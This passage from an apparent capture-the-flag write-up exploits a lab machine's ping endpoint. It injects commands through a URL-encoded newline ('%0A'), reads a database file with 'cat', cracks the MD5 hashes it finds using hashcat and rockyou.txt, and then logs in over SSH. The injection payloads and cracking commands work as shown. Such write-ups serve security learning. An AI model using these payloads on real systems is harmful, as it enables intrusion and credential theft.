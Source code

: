 And I setup the http request as:
```bash
curl "http://$IP:8081/ping?ip=<<IP>>"
```

And I notice a captured packet from `tcpdump`!

So we can execute _one_ command on the machine. And I initially thought to find some sort of way to exploit ping by using `$(pwd)` or similar in the IP address but this did not work. So I upon further research about how urls are crafted I learnt about their encoding and how `%0A` is often a bit of a hassle to deal with.
`0A` is the hex for a newline or `\n`. Meaning that after our request if we add `%0A` we could potentially run another command...

Time to craft up another url request.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Als"
```

```
PING <<IP>> (<<IP>>) 56(84) bytes of data.
64 bytes from <<IP>>: icmp_seq=1 ttl=63 time=238 ms

--- <<IP>> ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 238.453/238.453/238.453/0.000 ms
index.js
node_modules
package.json
package-lock.json
start.sh
<<REDACTED>>
```

We can execute commands on the machine now! I immediately tried to launch a reverse shell but unfortunately that did not work desipte using multiple variations.
So instead, using `curl` requests as my reverse shell I decide to look around the system. Primarily to view the databse we initially found.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Acat <<REDACTED>>"
```

And we have the names and hashes of our users! They appear to be MD5 hashes and are quickly cracked using hashcat and rockyou.txt

```bash
hashcat -m 0 hash_hold.txt ~/wordlists/passwords/rockyou.txt --show | tee password_hold.txt
```

Now that we have their passwords, we can attempt to login to the machine.

```bash
ssh r00t@$IP
```

And using the password we found for them earlier, we are in!

---